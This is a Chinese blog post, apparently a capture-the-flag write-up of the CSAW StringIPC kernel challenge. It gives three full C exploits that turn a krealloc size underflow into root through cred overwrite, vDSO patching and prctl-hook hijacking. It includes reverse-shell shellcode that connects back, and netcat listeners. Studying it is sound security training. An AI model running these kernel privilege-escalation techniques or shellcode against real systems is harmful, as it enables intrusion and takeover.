





---

layout: post

title: 'Stringipc-从内存任意读写到权限提升'

date: '2020-01-14'

header-img: "img/home-bg.jpg"

tags:
     - kernel pwn 
author: 'De4dCr0w'

---

### 漏洞分析

漏洞点在于realloc函数：

```
static int realloc_ipc_channel ( struct ipc_state *state, int id, size_t size, int grow )
{
    struct ipc_channel *channel;
    size_t new_size;
    char *new_data;

    channel = get_channel_by_id(state, id);
    if ( IS_ERR(channel) )
        return PTR_ERR(channel);

    if ( grow )
        new_size = channel->buf_size + size;
    else
        new_size = channel->buf_size - size;

    new_data = krealloc(channel->data, new_size + 1, GFP_KERNEL);
    if ( new_data == NULL )
        return -EINVAL;

    channel->data = new_data;
    channel->buf_size = new_size;

    ipc_channel_put(state, channel);

    return 0;
}
```
传入的new_size为-1时，krealloc分配一个0大小的空间返回一个不为0的错误代码ZERO_SIZE_PTR（0x10）,绕过下面的判断你，又因为new_size是无符号整数，此时channel->buf_size=0xffffffffffffffff，后续读和写操作的范围就没有限制，可以对内存任意读写。



程序原本的含义是通过seek_channel_ipc获得要在channel->data操作的偏移，然后和channel->buf_size比较大小看channel->data+offset+count是否超过buf的范围，因为realloc_ipc——channel函数中的漏洞导致channel->buf_size=0xffffffffffffffff，channel->data=0x10，offset和count又用户可控，所以可以操作整个内存空间（包括内核空间）。


### 利用爆破出task_struct地址进行提权

漏洞利用步骤：

（1）调用alloc_channel_ipc，分配一个channel

（2）调用realloc_channel_ipc，shrink size大小，触发漏洞，导致任意内存读写

（3）通过prctl函数中的PR_SET_NAME功能，在task_struct里给char comm[TASK_COMM_LEN]设置为一个小于16字节的字符串。

（4）在0xffff880000000000~0xffffc80000000000搜索设置的字符串，据此找到task_struct地址以及cred的指针。利用seek_channel_ipc定位到想读的地址，进行任意读。

（5）将结构体的uid~fsgid全部覆写为0即可提权该进程（root uid为0）（前28字节），利用seek_channel_ipc定位到想写的地址，进行任意写。

cred 结构体如下：
```
struct cred {
    atomic_t    usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
    atomic_t    subscribers;    /* number of processes subscribed */
    void        *put_addr;
    unsigned    magic;
#define CRED_MAGIC  0x43736564
#define CRED_MAGIC_DEAD 0x44656144
#endif
    kuid_t      uid;        /* real UID of the task */
    kgid_t      gid;        /* real GID of the task */
    kuid_t      suid;       /* saved UID of the task */
    kgid_t      sgid;       /* saved GID of the task */
    kuid_t      euid;       /* effective UID of the task */
    kgid_t      egid;       /* effective GID of the task */
    kuid_t      fsuid;      /* UID for VFS ops */
    kgid_t      fsgid;      /* GID for VFS ops */
    unsigned    securebits; /* SUID-less security management */
    kernel_cap_t    cap_inheritable; /* caps our children can inherit */
    kernel_cap_t    cap_permitted;  /* caps we're permitted */
    kernel_cap_t    cap_effective;  /* caps we can actually use */
    kernel_cap_t    cap_bset;   /* capability bounding set */
    kernel_cap_t    cap_ambient;    /* Ambient capability set */
#ifdef CONFIG_KEYS
    unsigned char   jit_keyring;    /* default keyring to attach requested
                     * keys to */
    struct key __rcu *session_keyring; /* keyring inherited over fork */
    struct key  *process_keyring; /* keyring private to this process */
    struct key  *thread_keyring; /* keyring private to this thread */
    struct key  *request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
    void        *security;  /* subjective LSM security */
#endif
    struct user_struct *user;   /* real user ID subscription */
    struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
    struct group_info *group_info;  /* supplementary groups for euid/fsgid */
    struct rcu_head rcu;        /* RCU deletion hook */
};
```

注意点：strncpy_from_user，遇到0就截断了，所以cred写0时需要一字节一字节的写。

#### Exp

编写遇到的一些问题：

（1）传递的buf不能用栈空间，会报错，返回的search地址不对，改用堆。

（2）对这里指针的操作出现错误，导致没有获得正确的cred地址。

```
cred = *(size_t *)(search - 0x8);
real_cred = *(size_t *)(search - 0x10);
```

（3）pid数组定义成int型，pid[0] = 0，uid复制应该是'\x00'，而不是整型0

（4）getuid用成了getpid

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sys/prctl.h>
#include <unistd.h>

#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE+1
#define CSAW_OPEN_CHANNEL   CSAW_IOCTL_BASE+2
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE+3
#define CSAW_SHRINK_CHANNEL CSAW_IOCTL_BASE+4
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE+5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE+6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE+7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE+8

struct alloc_channel_args{
    size_t buf_size;
    int id;
};

struct shrink_channel_args{
    int id;
    size_t size;
};

struct read_channel_args{
    int id;
    char *buf;
    size_t count;
};

struct write_channel_args{
    int id;
    char *buf;
    size_t count;
};

struct seek_channel_args{
    int id;
    loff_t index;
    int whence;
};

int main(int argc, char *argv[], char *envp[])
{
    struct alloc_channel_args alloc_channel;
    struct shrink_channel_args shrink_channel;
    struct read_channel_args read_channel;
    struct write_channel_args write_channel;
    struct seek_channel_args seek_channel;

    //setvbuf(stdout, 0LL, 2, 0LL);
    char *buf = malloc(0x1000);
    char pid[1];
    size_t addr;
    size_t search;
    size_t cred, real_cred, task_struct;
    char *comm = "De4dCr0wCCxD_pD\0";
    prctl(PR_SET_NAME, comm);

    int fd = open("/dev/csaw", O_RDWR);
    if(fd < 0){
        printf("[-] open dev error!\n");
        return 0;
    }
    alloc_channel.id = -1;
    alloc_channel.buf_size = 0x100;
    ioctl(fd, CSAW_ALLOC_CHANNEL, &alloc_channel);
    if(alloc_channel.id == -1){
        printf("[-] alloc channel failed!\n");
        return 0;
    }

    shrink_channel.id = alloc_channel.id;
    shrink_channel.size = 0x101;
    ioctl(fd, CSAW_SHRINK_CHANNEL, &shrink_channel);

    for(addr = 0xffff880000000000; addr < 0xffffc80000000000; addr += 0x1000){ //按页遍历
        seek_channel.id = alloc_channel.id;
        seek_channel.index = addr-0x10;
        seek_channel.whence = SEEK_SET;
        ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

        read_channel.id = alloc_channel.id;
        read_channel.buf = buf;
        read_channel.count = 0x1000;
        ioctl(fd, CSAW_READ_CHANNEL, &read_channel);
        search = memmem(read_channel.buf, 0x1000, comm, 0x10);
        if(search){
            //cred = *(size_t *)(search - 0x8);
            //real_cred = *(size_t *)(search - 0x10);
            cred = *((size_t *)search - 1);
            //printf("[+] cred %lx\n",cred);
            real_cred = *((size_t *)search - 2);
            //printf("[+] real_cred %lx\n",real_cred);
            if((cred == real_cred) && (cred ||0xff00000000000000)){
                printf("[+] cred %lx\n",cred);
                task_struct = addr + search-(size_t)read_channel.buf;
                printf("[+] task_struct %lx\n",task_struct);
                break;
            }
        }
    }
    pid[0] = '\0'; 
    for(int i = 0; i < 30; i++){
        seek_channel.id = alloc_channel.id;
        seek_channel.index = cred - 0x10 + i;
        seek_channel.whence = SEEK_SET;
        ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

        write_channel.id = alloc_channel.id;
        write_channel.buf = pid;
        write_channel.count = 1;
        ioctl(fd, CSAW_WRITE_CHANNEL, &write_channel);
    }
    if(getuid() == 0){
        printf("[+] get root!\n");
        system("/bin/sh");
    }

    return 0;
}

```

### 利用vdso进行提权

**shellcode 分析**

用到的反弹shellcode和常见的x86-64 shellcode差不多，但有几个修改的地方。第一个修改为：只为root进程创建反弹shell。因为每一个调用gettimeofday的进程都会触发我们的shellcode，我们不需要那些没有root权限的进程的shell权限。我们可以通过调用 0x66(sys_getuid)系统调用并将其与0进行比较。如果没有root权限，我们继续调用0x66(sys_gettimeofday)系统调用，所以其他没有不相关的进程也不会受到太多影响。但同样在root进程当中，我们不想造成更多的问题，我们将通过0x39系统调用 fork一个子进程，父进程继续执行sys_gettimeofday，而由子进程来执行反弹shell。

```
https://gist.github.com/itsZN/1ab36391d1849f15b785
"\x90\x53\x48\x31\xc0\xb0\x66\x0f\x05\x48\x31\xdb\x48\x39\xc3\x75\x0f\x48\x31\xc0\xb0\x39\x0f\x05\x48\x31\xdb\x48\x39\xd8\x74\x09\x5b\x48\x31\xc0\xb0\x60\x0f\x05\xc3\x48\x31\xd2\x6a\x01\x5e\x6a\x02\x5f\x6a\x29\x58\x0f\x05\x48\x97\x50\x48\xb9\xfd\xff\xf2\xfa\x80\xff\xff\xfe\x48\xf7\xd1\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x48\x31\xdb\x48\x39\xd8\x74\x07\x48\x31\xc0\xb0\xe7\x0f\x05\x90\x6a\x03\x5e\x6a\x21\x58\x48\xff\xce\x0f\x05\x75\xf6\x48\xbb\xd0\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd3\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x31\xd2\xb0\x3b\x0f\x05\x48\x31\xc0\xb0\xe7\x0f\x05";


nop
push rbx
xor rax,rax
mov al, 0x66
syscall #check uid
xor rbx,rbx
cmp rbx,rax
jne emulate

xor rax,rax
mov al,0x39
syscall #fork
xor rbx,rbx
cmp rax,rbx
je connectback

emulate:
pop rbx
xor rax,rax
mov al,0x60
syscall
retq

connectback:
xor rdx,rdx
pushq 0x1
pop rsi
pushq 0x2
pop rdi
pushq 0x29
pop rax 
syscall #socket

xchg rdi,rax
push rax
mov rcx, 0xfeffff80faf2fffd
not rcx
push rcx
mov rsi,rsp
pushq 0x10
pop rdx
pushq 0x2a
pop rax
syscall #connect

xor rbx,rbx
cmp rax,rbx
je sh
xor rax,rax
mov al,0xe7
syscall #exit

sh:
nop
pushq 0x3
pop rsi
duploop:
pushq 0x21
pop rax
dec rsi
syscall #dup
jne duploop

mov rbx,0xff978cd091969dd0
not rbx
push rbx
mov rdi,rsp
push rax
push rdi
mov rsi,rsp
xor rdx,rdx
mov al,0x3b
syscall #execve
xor rax,rax
mov al,0xe7
syscall
```

**获取vdso地址**

vdso和vsyscall是内核通过映射方法与用户态共享的物理内存，从而加快执行效率，当在内核态修改内存时，用户态所访问到的数据同样会改变。
vdso在内核层的内存权限为rw，用户层的权限为rx，vdso的范围在0xffffffff80000000~0xffffffffffffefff。

通过getauxval(AT_SYSINFO_EHDR)函数得到用户层vdso地址，并调用memmem找到"gettimeofday"的字符串距离vdso地址的偏移为0x2cd。通过匹配vdso中"gettimeofday"字符串（同时偏移要为`0x2cd`，因为内存中可能存在多个"gettimeofday"字符串），可以爆破得到vdso的内核层地址，用gdb附加，用dump memory 出vdso的内容，共有0x2000个字节：

dump memory vdso.1 0xffffffff9ac04000 0xffffffff9ac06000

再用objdump -T vdso.1得到gettimeofday系统调用代码的偏移，将其覆盖成shellcode的代码，进行提权。（映射到用户空间的vdso其实是个ELF文件）



在提权前要判断用户层vdso+`0xc80`的内容是否被覆盖成shellcode了，因为内核态修改内存时，用户态所访问到的数据同样会改变。"gettimeofday"字符串和它的代码会在一页中。

#### Exp

总体思路其实就是爆破得到gettimeofday系统调用在vdso中内核层地址，将其覆盖成shellcode，等到其他root进程调用到gettimeofday时就可以执行shellcode，fork出的进程具有root权限，达到提权的目的。

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/auxv.h>
#include <sys/prctl.h>

#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE+1
#define CSAW_OPEN_CHANNEL   CSAW_IOCTL_BASE+2
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE+3
#define CSAW_SHRINK_CHANNEL CSAW_IOCTL_BASE+4
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE+5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE+6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE+7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE+8

struct alloc_channel_args{
    size_t buf_size;
    int id;
};

struct shrink_channel_args{
    int id;
    size_t size;
};

struct read_channel_args{
    int id;
    char *buf;
    size_t count;
};

struct write_channel_args{
    int id;
    char *buf;
    size_t count;
};

struct seek_channel_args{
    int id;
    loff_t index;
    int whence;
};

size_t check_have_writed(char * shellcode)
{
    size_t vdso_usr, ret;
    vdso_usr = getauxval(AT_SYSINFO_EHDR);
    printf("[+] vdso_usr:0x%lx\n", vdso_usr);
    ret = memmem(vdso_usr, 0x1000, shellcode, strlen(shellcode));
    if(ret){
        return ret;
    }
    return 0;
}

int main(int argc, char *argv[], char *envp[])
{
    struct alloc_channel_args alloc_channel;
    struct shrink_channel_args shrink_channel;
    struct read_channel_args read_channel;
    struct write_channel_args write_channel;
    struct seek_channel_args seek_channel;

    char *buf = malloc(0x1000);
    char pid[1];
    size_t addr;
    size_t search;
    size_t cred, real_cred, task_struct;
    size_t vdso_kernel, vdso_usr;
    char shellcode[] = "\x90\x53\x48\x31\xc0\xb0\x66\x0f\x05\x48\x31\xdb\x48\x39\xc3\x75\x0f\x48\x31\xc0\xb0\x39\x0f\x05\x48\x31\xdb\x48\x39\xd8\x74\x09\x5b\x48\x31\xc0\xb0\x60\x0f\x05\xc3\x48\x31\xd2\x6a\x01\x5e\x6a\x02\x5f\x6a\x29\x58\x0f\x05\x48\x97\x50\x48\xb9\xfd\xff\xf2\xfa\x80\xff\xff\xfe\x48\xf7\xd1\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x48\x31\xdb\x48\x39\xd8\x74\x07\x48\x31\xc0\xb0\xe7\x0f\x05\x90\x6a\x03\x5e\x6a\x21\x58\x48\xff\xce\x0f\x05\x75\xf6\x48\xbb\xd0\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd3\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x31\xd2\xb0\x3b\x0f\x05\x48\x31\xc0\xb0\xe7\x0f\x05";

    int fd = open("/dev/csaw", O_RDWR);
    if(fd < 0){
        printf("[-] open dev error!\n");
        return 0;
    }
    alloc_channel.id = -1;
    alloc_channel.buf_size = 0x100;
    ioctl(fd, CSAW_ALLOC_CHANNEL, &alloc_channel);
    if(alloc_channel.id == -1){
        printf("[-] alloc channel failed!\n");
        return 0;
    }

    shrink_channel.id = alloc_channel.id;
    shrink_channel.size = 0x101;
    ioctl(fd, CSAW_SHRINK_CHANNEL, &shrink_channel);

    for(addr = 0xffffffff80000000; addr < 0xffffffffffffefff; addr += 0x1000){ //按页遍历，vdso的起始地址是页的整数倍
        seek_channel.id = alloc_channel.id;
        seek_channel.index = addr-0x10;
        seek_channel.whence = SEEK_SET;
        ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

        read_channel.id = alloc_channel.id;
        read_channel.buf = buf;
        read_channel.count = 0x1000;
        ioctl(fd, CSAW_READ_CHANNEL, &read_channel);
        search = memmem(read_channel.buf, 0x1000, "gettimeofday", 12);
        if(search && ((search -(size_t)buf) == 0x2cd)){
                vdso_kernel = addr;
                printf("[+] vdso_kernel: 0x%lx\n",vdso_kernel);
                break;
            }
    }

    seek_channel.id = alloc_channel.id;
    seek_channel.index = vdso_kernel - 0x10 + 0xc80;
    seek_channel.whence = SEEK_SET;
    ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

    write_channel.id = alloc_channel.id;
    write_channel.buf = shellcode;
    write_channel.count = strlen(shellcode);
    ioctl(fd, CSAW_WRITE_CHANNEL, &write_channel);

    if(check_have_writed(shellcode) != 0){
        printf("[+] shellcode have been writed!\n");
        printf("[+] now you get root!\n");
        system("nc -lp 3333");
    }else{
        printf("[-] failed!\n");
    }

    return 0;
}

```

### 利用 HijackPrctl 进行提权

利用到的两个相关函数为：

（1）entry_SYSCALL_64->SyS_prctl->SYSC_prctl->security_task_prctl：
prctl 函数 会把所有的参数传递到 security_task_prctl 函数

```
int security_task_prctl(int option, unsigned long arg2, unsigned long arg3,
             unsigned long arg4, unsigned long arg5)
{
    int thisrc;
    int rc = -ENOSYS;
    struct security_hook_list *hp;

    list_for_each_entry(hp, &security_hook_heads.task_prctl, list) {
        thisrc = hp->hook.task_prctl(option, arg2, arg3, arg4, arg5);
        if (thisrc != -ENOSYS) {
            rc = thisrc;
            if (thisrc != 0)
                break;
        }
    }
    return rc;
}
```

最终调用的 hp->hook.task_prctl ，通过修改调用该函数的地址进行劫持。

用到的函数调用链为：entry_SYSCALL_64->SyS_prctl->SYSC_prctl->security_task_prctl-> (hp->hook.task_prctl)

hook位于内核的data段上，内核态有读写权限，因此可以通过修改这个位置劫持ptctl函数的执行流程

（2）call_usermodehelper 函数可以在内核中直接新建和运行用户空间程序，并且具有root权限，参数类似 execve。
run_cmd 函数，根据传进来的字符串自动切割，然后调用call_usermodhelper

```
static int run_cmd(const char *cmd) {
char **argv; static char *envp[] = { "HOME=/", "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL }; 
int ret; 
argv = argv_split(GFP_KERNEL, cmd, NULL); 
if (argv) {
    ret = call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC); argv_free(argv); 
  } else { 
     ret = -ENOMEM; 
  }
   return ret; 
}
```
reboot_work_func 和 poweroff_work_func 调用了 run_cmd

```
char poweroff_cmd[POWEROFF_CMD_PATH_LEN] = "/sbin/poweroff";
static const char reboot_cmd[] = "/sbin/reboot";

static int run_cmd(const char *cmd)
{
    char **argv;
    static char *envp[] = {
        "HOME=/",
        "PATH=/sbin:/bin:/usr/sbin:/usr/bin",
        NULL
    };
    int ret;
    argv = argv_split(GFP_KERNEL, cmd, NULL);
    if (argv) {
        ret = call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
        argv_free(argv);
    } else {
        ret = -ENOMEM;
    }

    return ret;
}

static int __orderly_reboot(void)
{
    int ret;

    ret = run_cmd(reboot_cmd);

    if (ret) {
        pr_warn("Failed to start orderly reboot: forcing the issue\n");
        emergency_sync();
        kernel_restart(NULL);
    }

    return ret;
}

static int __orderly_poweroff(bool force)
{
    int ret;

    ret = run_cmd(poweroff_cmd);

    if (ret && force) {
        pr_warn("Failed to start orderly shutdown: forcing the issue\n");

        /*
         * I guess this should try to kick off some daemon to sync and
         * poweroff asap.  Or not even bother syncing if we're doing an
         * emergency shutdown?
         */
        emergency_sync();
        kernel_power_off();
    }

    return ret;
}
```
poweroff_cmd 是可写入的，更改了poweroff_cmd[POWEROFF_CMD_PATH_LEN]变量的内容就可以任意命令执行（修改的变量必须是全局变量）。

用到的函数调用链为：poweroff_work_func->__orderly_poweroff(bool force)->run_cmd(poweroff_cmd)->usermodehelper

所以综上，漏洞利用要修改的地方有两处：

（1）将hp->hook.task_prctl修改成__orderly_poweroff函数地址，执行__orderly_poweroff

（2）将poweroff_cmd修改成恶意程序路径（绝对路径），执行恶意程序。

搜索/sbin/poweroff 字符串：



查找引用该字符串的地方：



只有一处调用：



现在的问题是如何找到hook.task_prctl在.data节上的偏移，看出题人的思路是可以通过调用prctl后动态调试中得到，但是题目给的bzImage不带调试信息，如何下断点，不知道有什么简单的方法可以得到。

#### Exp

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/auxv.h>
#include <sys/prctl.h>

#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_ALLOC_CHANNEL  CSAW_IOCTL_BASE+1
#define CSAW_OPEN_CHANNEL   CSAW_IOCTL_BASE+2
#define CSAW_GROW_CHANNEL   CSAW_IOCTL_BASE+3
#define CSAW_SHRINK_CHANNEL CSAW_IOCTL_BASE+4
#define CSAW_READ_CHANNEL   CSAW_IOCTL_BASE+5
#define CSAW_WRITE_CHANNEL  CSAW_IOCTL_BASE+6
#define CSAW_SEEK_CHANNEL   CSAW_IOCTL_BASE+7
#define CSAW_CLOSE_CHANNEL  CSAW_IOCTL_BASE+8

struct alloc_channel_args{
    size_t buf_size;
    int id;
};

struct shrink_channel_args{
    int id;
    size_t size;
};

struct read_channel_args{
    int id;
    char *buf;
    size_t count;
};

struct write_channel_args{
    int id;
    char *buf;
    size_t count;
};

struct seek_channel_args{
    int id;
    loff_t index;
    int whence;
};

size_t check_have_writed(char * shellcode)
{
    size_t vdso_usr, ret;
    vdso_usr = getauxval(AT_SYSINFO_EHDR);
    printf("[+] vdso_usr:0x%lx\n", vdso_usr);
    ret = memmem(vdso_usr, 0x1000, shellcode, strlen(shellcode));
    if(ret){
        return ret;
    }
    return 0;
}

int main(int argc, char *argv[], char *envp[])
{
    struct alloc_channel_args alloc_channel;
    struct shrink_channel_args shrink_channel;
    struct read_channel_args read_channel;
    struct write_channel_args write_channel;
    struct seek_channel_args seek_channel;

    char *buf = malloc(0x1000);
    char pid[1];
    size_t addr;
    size_t search;
    size_t cred, real_cred, task_struct;
    size_t vdso_kernel, vdso_usr;
    char *comm = "gettimeofday\0";

    char payload[] = "/reverse_shell\0";

    int fd = open("/dev/csaw", O_RDWR);
    if(fd < 0){
        printf("[-] open dev error!\n");
        return 0;
    }
    alloc_channel.id = -1;
    alloc_channel.buf_size = 0x100;
    ioctl(fd, CSAW_ALLOC_CHANNEL, &alloc_channel);
    if(alloc_channel.id == -1){
        printf("[-] alloc channel failed!\n");
        return 0;
    }

    shrink_channel.id = alloc_channel.id;
    shrink_channel.size = 0x101;
    ioctl(fd, CSAW_SHRINK_CHANNEL, &shrink_channel);

    for(addr = 0xffffffff80000000; addr < 0xffffffffffffefff; addr += 0x1000){
        seek_channel.id = alloc_channel.id;
        seek_channel.index = addr-0x10;
        seek_channel.whence = SEEK_SET;
        ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

        read_channel.id = alloc_channel.id;
        read_channel.buf = buf;
        read_channel.count = 0x1000;
        ioctl(fd, CSAW_READ_CHANNEL, &read_channel);
        search = memmem(read_channel.buf, 0x1000, "gettimeofday", 12);
        if(search && ((search -(size_t)buf) == 0x2cd)){
                vdso_kernel = addr;
                printf("[+] vdso_kernel: 0x%lx\n",vdso_kernel);
                break;
            }
    }
    size_t kernel_base = vdso_kernel & 0xffffffffff000000;
    size_t prctl_hook = kernel_base + 0xeb7df8;
    size_t poweroff_cmd = kernel_base + 0xE4DFA0;
    size_t poweroff_func = kernel_base + 0x0A39C0;
    
    printf("kernel_base :0x%lx\n", kernel_base);
    printf("prctl_hook :0x%lx\n", prctl_hook);
    printf("poweroff_cmd :0x%lx\n", poweroff_cmd);
    printf("poweroff_func :0x%lx\n", poweroff_func);

    // 修改poweroff_cmd 命令为恶意程序路径
    seek_channel.id = alloc_channel.id;
    seek_channel.index = poweroff_cmd - 0x10;
    seek_channel.whence = SEEK_SET;
    ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

    write_channel.id = alloc_channel.id;
    write_channel.buf = payload;
    write_channel.count = strlen(payload);
    ioctl(fd, CSAW_WRITE_CHANNEL, &write_channel);
    
    char poweroff_func_addr[8];
    for(int i = 0; i < 8; i++){
        poweroff_func_addr[i] = (char)(poweroff_func & 0xff);
        poweroff_func = poweroff_func >> 8;
    }

    //char *poweroff_func_addr = malloc(0x20);
    //*(size_t *)poweroff_func_addr = poweroff_func; 或者用这样转换long型整数到char数组中

    //修改prctl_hook 地址为调用poweroff_func的地址
    seek_channel.id = alloc_channel.id;
    seek_channel.index = prctl_hook - 0x10;
    seek_channel.whence = SEEK_SET;
    ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);
        
    write_channel.id = alloc_channel.id;
    write_channel.buf = poweroff_func_addr;
    write_channel.count = strlen(poweroff_func_addr);
    ioctl(fd, CSAW_WRITE_CHANNEL, &write_channel);
        
    if (fork()==0){
        prctl(kernel_base, 2, kernel_base, kernel_base, 2);
        printf("[+] child process.\n");
        exit(-1);
             
    }
    printf("[+] parent process. listen .....\n");
    system("nc -lp 2333");

    return 0;
}

```

不太理解prctl参数的设定有没有影响。qemu 开启随机化，该exp利用有些不稳定。

### 参考链接

https://www.jianshu.com/p/07994f8b2bb0

http://p4nda.top/2018/11/07/stringipc/

https://hardenedlinux.github.io/translation/2015/11/25/Translation-Bypassing-SMEP-Using-vDSO-Overwrites.html

强网杯出题思路-solid_core-HijackPrctl
https://bbs.pediy.com/thread-225488.htm